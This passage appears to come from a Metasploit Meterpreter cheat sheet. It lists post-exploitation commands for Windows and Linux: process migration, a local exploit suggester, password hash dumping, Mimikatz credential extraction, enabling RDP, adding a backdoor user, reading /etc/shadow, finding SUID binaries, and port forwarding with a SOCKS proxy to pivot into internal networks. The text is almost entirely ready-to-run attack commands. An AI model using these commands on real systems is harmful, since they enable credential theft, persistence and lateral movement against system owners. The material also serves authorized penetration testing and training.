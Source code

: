 ```bash
migrate <PID>

# Run command
shell
```

### Privilege Escalation
```bash
# Local exploit suggester
run post/multi/recon/local_exploit_suggester

# Get hashes
hashdump
run post/windows/gather/smart_hashdump

# Mimikatz
load kiwi
creds_all
```

## Post-Exploitation

### Windows
```bash
# Enable RDP
run post/windows/manage/enable_rdp

# Add user
run post/windows/manage/add_user USER=P@ssw0rd

# Dump passwords
run post/windows/gather/credentials/credential_collector
```

### Linux
```bash
# Get system info
uname -a
cat /etc/passwd
cat /etc/shadow

# Find SUID files
find / -perm -4000 2>/dev/null
```

## Port Forwarding

```bash
# List port forwards
portfwd list

# Local port forward
portfwd add -l 3389 -p 3389 -r 192.168.1.2

# Dynamic port forwarding
route add 192.168.2.0 255.255.255.0 1
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
run
```
